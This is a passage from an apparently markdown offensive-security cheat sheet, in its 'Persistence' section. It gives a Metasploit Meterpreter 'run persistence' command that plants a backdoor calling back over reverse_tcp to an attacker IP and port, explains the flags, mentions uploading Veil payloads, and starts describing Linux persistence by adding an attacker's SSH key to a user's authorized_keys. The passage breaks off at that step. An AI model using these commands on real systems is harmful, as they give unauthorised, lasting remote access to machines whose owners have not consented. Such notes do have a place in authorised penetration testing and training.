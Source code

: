         -   Note that the command result does not return immediately. This delay is caused by the DefaultDelay parameter, which is currently set to the default value of five seconds.

![persistence](images/persistence.png) </br>
-   <h2 align="center">Persistence</h2>

    -   **Metasploit**

        -   Meterpreter \> run persistence -A -l c://windows -X -i \[time in sec\] -P windows/meterpreter/reverse\_tcp  -p \[port\] -r \[ip\]

        -   Arguments

            -   -l = location of the backdoor

            -   -A = setup a listener automatically

            -   -I = interval time to try connect to the attacker  

        -   metasploit + veil = use exploit/windows/local/persistence \| (show advanced) \|  and upload veil payload

    -   **Linux**

        -   **Add ssh keys**

            -   This is useful if you can access SSH service on the machine. SSH keys are a secure and convenient way to login through SSH. When you configure SSH keys for a Linux user account, you can login through SSH without knowing the account's password

            -   So, if we add our public key to some user's authorized\_keys file, we'll be able to login as that user through SSH. If you don't have a key already, you can generate one on your attacker machine using ssh-keygen.
